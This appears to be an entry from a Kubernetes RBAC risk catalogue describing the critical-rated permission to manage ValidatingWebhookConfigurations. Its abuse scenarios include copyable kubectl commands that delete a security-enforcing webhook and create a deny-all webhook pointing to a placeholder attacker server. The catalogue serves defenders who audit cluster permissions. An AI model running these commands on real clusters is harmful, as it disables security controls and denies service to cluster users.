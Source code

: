 ```yaml
---
id: 1044
title: "Manage ValidatingWebhookConfigurations"
description: "Allows control over ValidatingWebhookConfigurations, which can validate or reject API objects during admission. An attacker can use this to tamper with security policies (e.g., disable a validating webhook that enforces security best practices) or cause denial of service by rejecting legitimate requests."
category: Tampering
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                   |
| ------------- | --------------------------------------------------------------------------------------- |
| ID            | 1044                                                                                    |
| Name          | Manage ValidatingWebhookConfigurations                                                  |
| Risk Category | Tampering                                                                               |
| Risk Level    | {{< risk Critical >}}                                                                   |
| Role Type     | ClusterRole                                                                             |
| API Groups    | admissionregistration.k8s.io                                                            |
| Resources     | validatingwebhookconfigurations                                                         |
| Verbs         | create, update, patch, delete                                                           |
| Tags          | {{< tag "DenialOfService" >}} {{< tag "Tampering" >}} {{< tag "WebhookManipulation" >}} |

## Description

Allows control over ValidatingWebhookConfigurations, which can validate or reject API objects during admission. An attacker can use this to tamper with security policies (e.g., disable a validating webhook that enforces security best practices) or cause denial of service by rejecting legitimate requests.

## Abuse Scenarios

1. Delete a ValidatingWebhookConfiguration that enforces security policies.

```bash {copy=true}
kubectl delete validatingwebhookconfiguration <webhook-name>
# Example: kubectl delete validatingwebhookconfiguration pod-security-policy-webhook

```

2. Create a ValidatingWebhookConfiguration to block legitimate resource creation (DoS).

```bash {copy=true}
kubectl create -f - <<EOF
apiVersion: admissionregistration.k8s.io/v1
kind: ValidatingWebhookConfiguration
metadata:
  name: deny-all-pods
webhooks:
- name: deny-all-pods.example.com
  clientConfig:
    url: "https://<malicious-webhook-server>/validate" # Attacker-controlled server that always denies
    caBundle: <base64-encoded-ca-cert>
  rules:
  - operations: ["CREATE"]
    apiGroups: [""]
    apiVersions: ["v1"]
    resources: ["pods"]
  admissionReviewVersions: ["v1", "v1beta1"]
  sideEffects: None
  failurePolicy: Fail # Crucial for DoS
EOF
# Example: kubectl create -f - <<EOF ... EOF

```
